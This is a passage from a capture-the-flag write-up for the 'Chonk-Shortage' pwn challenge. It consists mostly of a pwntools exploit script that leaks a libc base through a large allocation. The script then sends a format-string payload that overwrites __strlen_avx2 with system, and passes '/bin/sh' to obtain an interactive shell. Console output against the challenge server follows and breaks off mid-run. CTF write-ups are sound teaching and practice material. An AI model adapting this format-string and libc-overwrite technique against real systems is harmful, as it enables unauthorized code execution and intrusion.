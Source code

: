 ```python
def malloc(size: int) -> int:
    io.sendlineafter(CHOICE_PROMPT, b"1")
    io.sendlineafter(SIZE_PROMPT, str(size).encode())
    io.recvuntil(ADDRESS_MARKER)

    return int(io.recvuntilS(ADDRESS_END_MARKER, drop=True), 16)


offset = FmtStr(execute_fmt=send_payload).offset

chonk_address = malloc(0x210000)
log.success(f"chonk @ {hex(chonk_address)}")

libc.address = chonk_address - 0x10 + 0x214000
log.success(f"libc @ {hex(libc.address)}")
log.success(f"__strlen_avx2 @ {hex(libc.sym.__strlen_avx2)}")

io.sendlineafter(CHOICE_PROMPT, b"3")
io.sendlineafter(NAME_PROMPT, b"/bin/sh\x00")
io.sendlineafter(
    FEEDBACK_PROMPT,
    fmtstr_payload(
        offset,
        {
            libc.sym.__strlen_avx2: libc.sym.system,
        },
    ),
)

io.interactive()
```

Running the above script yields us the following.

```
❯ python xpl.py REMOTE
[*] 'Pwn/Chonk-Shortage/dist/chonk_shortage'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 'Pwn/Chonk-Shortage/dist/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chals.ctf.sg on port 30101: Done
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
[*] Closed connection to chals.ctf.sg port 30101
[+] Opening connection to chals.ctf.sg on port 30101: Done
```